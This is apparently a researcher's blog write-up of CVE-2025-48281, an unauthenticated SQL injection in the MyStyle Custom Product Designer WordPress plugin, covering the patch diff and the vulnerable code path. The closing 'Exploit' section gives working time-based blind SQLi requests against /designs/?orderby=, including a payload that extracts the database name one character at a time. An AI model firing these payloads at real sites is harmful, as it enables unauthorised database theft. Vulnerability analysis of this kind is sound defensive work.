









# CVE-2025-48281 Analysis & POC


<!--more-->

The vulnerability exists in the **MyStyle Custom Product Designer** WordPress plugin prior to version **3.21.2**. This can allow an attacker to interact directly with your database, including but not limited to data exfiltration.

* **CVE ID**: [CVE-2025-48281](https://www.cve.org/CVERecord?id=CVE-2025-48281)
* **Product**: [WordPress MyStyle Custom Product Designer Plugin](https://wordpress.org/plugins/mystyle-custom-product-designer)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 3.21.1
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **MyStyle Custom Product Designer**: v3.21.1 (vulnerable) and v3.21.2 (patched)
* **diff tool**: **meld** or any tool that can compare two versions to see differences
* **Activated WooCommerce plugin**: WooCommerce must be active before installing the MyStyle plugin because some functions from WooCommerce are used.

## Analysis

The root cause is that the application directly injects data from a **GET** request into an SQL query without proper validation/control.

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions.
A clear difference exists in the file **includes/entities/class-mystyle-designmanager.php**

```php
public static function get_designs(
    $per_page = 250,
    $page_number = 1,
    WP_User $user = null
) {
    global $wpdb;

    // Add security WHERE clause.
    $where = self::get_security_where_clause( 'WHERE', $user );

    if ( ! empty( $_GET['orderby'] ) ) {
        $order  = ' ORDER BY ' . sanitize_text_field( wp_unslash( $_GET['orderby'] ) );
        $order .= ! empty( $_GET['order'] ) ? ' ' . sanitize_text_field( wp_unslash( $_GET['order'] ) ) : ' ASC';
    } else {
        $order = ' ORDER BY ms_design_id DESC';
    }
   
    $results = $wpdb->get_results(
        $wpdb->prepare(
            'SELECT * '
            . "FROM {$wpdb->prefix}mystyle_designs "
            . $where
            . $order
            . ' LIMIT %d
            OFFSET %d',
            array(
                $per_page,
                ( $page_number - 1 ) * $per_page,
            )
        ),
        'OBJECT'
    );
    // other logic
}
````

Data from `$_GET['orderby']` is injected directly into the SQL query without proper validation. Using only `sanitize_text_field()` and `wp_unslash()` only removes or escapes characters and does **not** guarantee safety. Therefore, SQLi is possible.

```php
public static function get_designs(
    $per_page = 250,
    $page_number = 1,
    WP_User $user = null
) {
    global $wpdb;

    // Add security WHERE clause.
    $where = self::get_security_where_clause( 'WHERE', $user );

       if ( ! empty( $_GET['orderby'] ) ) {
        $orderby = sanitize_text_field( wp_unslash( $_GET['orderby'] ) );
        $order   = ! empty( $_GET['order'] ) ? sanitize_text_field( wp_unslash( $_GET['order'] ) ) : 'ASC';
        
        // Validate order direction to prevent SQL injection.
        $allowed_orderby = array(
            'ms_design_id',
            'ms_title',
            'ms_access',
            'ms_email',
            'ms_date_created',
            'ms_date_modified',
        );
        $orderby = in_array( strtolower( $orderby ), $allowed_orderby, true ) ? $orderby : 'ms_design_id';

        $order = in_array( strtoupper( $order ), array( 'ASC', 'DESC' ), true ) ? $order : 'ASC';
        
        $order = ' ORDER BY ' . $orderby . ' ' . $order;
    } else {
        $order = ' ORDER BY ms_design_id DESC';
    }

    $results = $wpdb->get_results(
        $wpdb->prepare(
            'SELECT * '
            . "FROM {$wpdb->prefix}mystyle_designs "
            . $where
            . $order
            . ' LIMIT %d
            OFFSET %d',
            array(
                $per_page,
                ( $page_number - 1 ) * $per_page,
            )
        ),
        'OBJECT'
    );
    // other logic
}
```

The patch implements a whitelist (`$allowed_orderby`) that explicitly defines allowable columns for ordering. If the `orderby` value is not in the allowed list, it is replaced with the default `'ms_design_id'` — preventing injection of malicious payloads.



### How it works

The vulnerability is in the `get_designs` function of the `MyStyle_DesignManager` class (file **includes/entities/class-mystyle-designmanager.php**). To find where it is called, search for `get_designs` within the plugin folder.

👉 `get_designs` is called from `get_items`, `init_index_request` and some test functions (not relevant).



Because this is an **unauthenticated** vulnerability, we must identify which function can be invoked without authentication.

#### get_items() Function

`get_items` is in the `MyStyle_Wp_Rest_Api_Design_Controller` class (file **includes/wprestapi/class-mystyle-wp-rest-api-design-controller.php**).



The code before calling `get_designs` doesn’t handle authentication, so we must check the permission callback used by the REST route. `get_items` is registered as the callback for a REST API route using `register_rest_route()` in WordPress.

```php
public function register_routes() {
    $version   = '2';
    $vendor    = 'wc-mystyle';
    $namespace = $vendor . '/v' . $version;
    $base      = 'designs';
    register_rest_route(
        $namespace, '/' . $base, array(
            array(
                'methods'             => WP_REST_Server::READABLE, // GET
                'callback'            => array( $this, 'get_items' ),
                'permission_callback' => array( $this, 'get_items_permissions_check' ),
                'args'                => array(),
            )
        )
    )
    // other logic
}
```

However, before the callback is invoked, the `get_items_permissions_check` function runs — we need to know whether an anonymous user can call this API. Search for `get_items_permissions_check`.



👉 `get_items_permissions_check` calls `wc_rest_check_manager_permissions` to verify permissions with `$object = 'settings'`. Because `wc_rest_check_manager_permissions` is defined in the WooCommerce plugin (not in this plugin), we need to inspect its behavior.



* `wc_rest_check_manager_permissions` is defined in the **WooCommerce** plugin.
* The `settings` mapping leads to `manage_woocommerce`.
* It calls `current_user_can( 'manage_woocommerce' )` to check user capability => only admin (or users with `manage_woocommerce` capability).

👉 Therefore we cannot exploit via `get_items` => we should try to exploit via `init_index_request`.

#### init_index_request() Function

`init_index_request` is in the `MyStyle_Design_Profile_Page` class (file **includes/pages/class-mystyle-design-profile-page.php**).



The code prior to calling `get_designs` doesn’t involve authentication, so we move on.
`init_index_request` is invoked by the `init` method in the same class.

```php
public function init() {
    // Check if the current page is /designs
    if ( ! self::is_current_post() ) {
        return;
    }

    // other logic
    $design_id = self::get_design_id_from_url();

    // Only runs when the following POST variables are present => not relevant
    if( isset( $_POST['delete_design_nonce'] ) && wp_verify_nonce( sanitize_key( $_POST['delete_design_nonce'] ), 'mystyle_delete_design_nonce' ) ) {
        
        $design = MyStyle_DesignManager::get( $design_id, $user, $session ) ;
        if ( $design ) {
            // Check if the user is the owner of the design or an admin.
            if ( current_user_can( 'administrator' ) || MyStyle_DesignManager::is_user_design_owner( $this->user->ID, $design_id ) ) {
                // restrict the design access to 2 (deleted).
                $design->set_access( 2 );
                MyStyle_DesignManager::persist( $design );
                $this->delete_design_success_message = 'Design has been successfully deleted.';
            }
        }
    }

    if ( false === $design_id || preg_match( '/page/', $design_id ) ) {
        $design_profile_page->init_index_request();
    } else {
        $design_profile_page->init_design_request( $design_id );
    }
}
```

For `init_index_request` to be called, the `if` condition must be true. We need to know what `$design_id` is — it’s determined by `get_design_id_from_url` which is called via `self::get_design_id_from_url`.

```php
public static function get_design_id_from_url() {
    // Try the query vars ( ex: &design_id=10 ).
    $design_id = get_query_var( 'design_id' );
    if ( preg_match( '/page/', $design_id ) ) {
        $design_id = false;
    } elseif ( empty( $design_id ) ) {
        // ---------- try at /designs/10. --------
        // phpcs:ignore
        $path = $_SERVER['REQUEST_URI'];

        // Get the design profile page's WP_Post slug.
        /* @var $post \WP_Post phpcs:ignore */
        $post = get_post( self::get_id() );
        $slug = $post->post_name;

        $pattern = '/^.*\/' . $slug . '\/([\d]+)/';
        if ( preg_match( $pattern, $path, $matches ) ) {
            $design_id = $matches[1];
        } else {
            $design_id = false;
        }
        // -------------------------------------
    }

    return $design_id;
}
```

👉 This function reads `design_id` from the **URL**, so if you do not include it in the URL when sending a request => the `if` condition becomes true => `init_index_request` is invoked.

Back in `init`, it is called from this class’s constructor (`__construct`).

```php
public function __construct() {
    // other logic
    add_action( 'init', array( &$this, 'rewrite_rules' ) );
    add_action( 'template_redirect', array( &$this, 'init' ) );
}
```

`init` is registered as a callback on the `template_redirect` hook — an action hook in WordPress that runs before the template is actually loaded and sent to the browser.

Above the `template_redirect` hook in the constructor, the `init` hook is also registered with the callback `rewrite_rules`:

```php
public function rewrite_rules() {
    // Flush rewrite rules for newly created rewrites.
    flush_rewrite_rules();

    add_rewrite_rule(
        'designs/([a-zA-Z0-9_-].+)?$', // designs/{slug}
        'index.php?pagename=designs&design_id=$matches[1]',
        'top'
    );
}
```

This adds the route `/designs/{id}` to load the `designs` page and pass `design_id`.

👉 Therefore, when accessing `/designs/`:

* The `rewrite_rules` callback runs, WordPress loads `/index.php?pagename=designs&design_id=`.
* Since `design_id` has no value, `get_design_id_from_url` returns false => the condition `false === $design_id` becomes true so `init_index_request` is called.
* `init_index_request` calls `get_designs`.
* `get_designs` directly reads `orderby` from the **GET** request and inserts it into the SQL query.



## Exploit

### Detect SQLi

Send a **GET request** containing an SQLi payload.

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

The resulting SQL becomes:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25
                OFFSET 0
```



👉 Based on the response time => the payload is effective.

> In this case, do not append a comment after `SLEEP`. Because the developer has an Enter/newline that moves **OFFSET** to the next line; if you comment it out, the SQL parser may return an error.



The chain will be split into two queries on different lines causing an error:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) -- ASC LIMIT 25               
OFFSET 0
```

### Get First Letter of Database Name

A prerequisite for dumping data is being able to extract a single character of the database name — if you can get one character, you can typically dump the rest.

Send a request with an SQLi payload:

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

This uses `SUBSTRING()` to get the first character of the **database name**, and `IF()` returns `SLEEP(5)` if that character equals `0x77` ('w').

Hex encoding `w` as `0x77` is used because `orderby` comes from a **GET** parameter that may be escaped by WordPress magic quotes.

👉 Based on the response time => the first character is `w`.

## Conclusion

The **CVE-2025-48281** vulnerability in the WordPress **MyStyle Custom Product Designer** plugin prior to version **3.21.2** stems from directly inserting user-controlled input into SQL without sufficient validation, leading to SQL Injection.

The official patch implements a whitelist which ensures the input is validated and safer.

**Key takeaways**:

* Strictly validate user input.
* Always use `$wpdb->prepare()` when working with the database in WordPress to avoid SQL Injection.
* Regularly update plugins and perform security checks to avoid becoming a target.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress MyStyle Custom Product Designer Plugin <= 3.21.1 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/mystyle-custom-product-designer/vulnerability/wordpress-mystyle-custom-product-designer-3-21-1-sql-injection-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-27-cve-2025-48281/  

